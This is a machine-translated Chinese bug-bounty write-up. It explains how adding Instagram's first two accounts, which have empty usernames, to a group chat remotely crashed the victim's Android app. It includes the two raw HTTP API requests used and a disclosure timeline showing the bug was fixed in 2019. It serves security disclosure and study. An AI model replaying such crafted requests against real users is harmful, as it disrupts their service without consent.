


# 两个死亡账号如何让任何 Instagram android 用户远程崩溃

> 原文：<https://infosecwriteups.com/how-two-dead-users-allowed-remote-crash-of-any-instagram-android-user-8f20e88b1b59?source=collection_archive---------0----------------------->


# 介绍



2019 年 4 月，我有了测试脸书安全(更具体地说是 Instagram 安全)的愚蠢想法，在我得知该公司在他们的资产上启用了一种新的设置(称为 Whitehat Settings)，使研究人员更容易发现新的漏洞(锁定不是问题，我只是有时有点懒:P)。在我最初的研究中，我得出结论，Instagram 在其数据库中使用简单的增量 PKI 来定义平台上的用户帐户，因此我很好奇，想确定哪些是社交网络上创建的第一批帐户。嗯，第一批账户中的一个(我不确定 PKID 是 3 还是 4)，属于 Mike Krieger(insta gram 联合创始人之一)。


是的，有点显而易见……但是第一个和第二个 Instagram 账户(PKID = 1 & PKID=2)呢？它们有点不寻常，因为它们与一个 ID 相关联，而且它们的用户名没有被填充:更准确地说，它们的用户名字段包含一个空字符串("")，我几乎可以肯定这种行为会产生一些问题。我的想法是，这些账户是在 Instagram 的初始测试阶段创建的，当时它只不过是一个 alpha 版本。此外，我想知道为什么过了这么长时间它们仍然没有被移走？但是没有人回应这个疑问。从现在开始，让我们称他们为幽灵用户😯


回到我们这里，如果没有服务器端代码的正确管理，空字符串有时可能是危险的:事实上，我的第一个想法是找到一种方法，通过利用对畸形数据的糟糕解析，使 Instagram 应用程序崩溃。然而，更有趣的是找到一种远程崩溃其他 Instagram 帐户的方法。

浏览 Instagram 的几个功能(Instagram 的功能比脸书少，但同样非常庞大)，我找到了一个适合这种情况的功能:在 Instagram messages 选项卡中创建群线程:事实上，可以在 Instagram 中用其他帐户创建聊天群。具体来说，执行操作的端点是:

```
/api/v1/direct_v2/create_group_thread/
```

# 利用

## 技术细节

Bug 测试是在 Android 版本等于 8.0 的三星 Galaxy S8+上进行的，开发阶段非常琐碎。

为了尝试利用空字符串问题，我首先与一个测试用户一起创建了一个简单的组。根据示例请求:

```
POST /api/v1/direct_v2/create_group_thread/ HTTP/1.1
User-Agent: Instagram ....
Accept-Language: en-US
Cookie: urlgen= ....
Accept-Encoding: gzip, deflate
Host:i.instagram.com
X-FB-HTTP-Engine: Liger
Connection: close
Content-Length: 353signed_body=d963d5f048924a58712d8bcf7912ac76a7c3c990199c7d59ac25e7990e142f49.{**"recipient_users":"[xxxxxxxxxx]**","_csrftoken":"WBpZmckmENi6eiubd26Osz6SIR3vtowu","thread_title":"bdbdbdbdbdxb","_uid":"12579513534","_uuid":"d18570eb-0663-40f4-bcc3-0c48a5031cee"}&ig_sig_key_version=4
```

这里重要的一部分是 recipient_users JSON 参数，它由受害者 instagram ID 填充。随后，我使用另一个 API 端点将一个 ghost 用户添加到现有组中:

```
POST /api/v1/direct_v2/threads/**yyyyyyyyyy**/add_user/ HTTP/1.1
User-Agent: Instagram ....
Accept-Language: en-US
Cookie: urlgen= ....
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Host:i.instagram.com
X-FB-HTTP-Engine: Liger
Connection: close
Content-Length: 109_csrftoken=Pod4ZKSSLYUYMPs2TxhN5Xkmsv6xUOsO&**user_ids=["2"]**&_uuid=d18570eb-0663-40f4-bcc3-0c48a5031cee
```

在上面的请求中，yyyyyyyyy 表示刚刚创建的组线程的 ID(从前面的 API 调用的响应中获得), user_ids 数组填充了值 2(一个 ghost 用户的 PKID)。

第二次请求后，受害者的 android Instagram 应用程序突然崩溃，用户被迫手动从群中移除才能再次使用！


这可能是由 ghost 用户用户名中的空字符串的 JSON 解析异常引起的。下面是崩溃导致的堆栈跟踪示例:



# 影响

利用这个漏洞，只要将 Instagram android 用户添加到一个以 ghost 用户为成员的公共组线程中，就有可能远程崩溃任何 insta gram Android 用户。我注意到，你的 Instagram 粉丝不需要接受任何请求(对他们来说，这是一种零点击利用)，但“加入群组”的请求必须由不关注攻击者的用户接受。

# 验证性测试（Proof of Concept 的缩写）

# 时间表

*   2019 年 4 月 10 日—就该 bug 联系脸书·怀特哈特团队
*   2019 年 4 月 12 日—脸书要求提供更多信息
*   五月 02 日。2019/09 2019 年 9 月-研究员和脸书之间交换的各种电子邮件。最终错误确认
*   2019 年 9 月 9 日—错误已修复
*   2019 年 9 月 10 日—颁发奖金
*   2019 年 9 月 12 日—漏洞被披露

*原载于 2019 年 9 月 13 日*[*https://www . valbrux . it*](https://www.valbrux.it/blog/2019/09/13/how-two-dead-users-allowed-remote-crash-of-any-instagram-android-user/)*。*

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)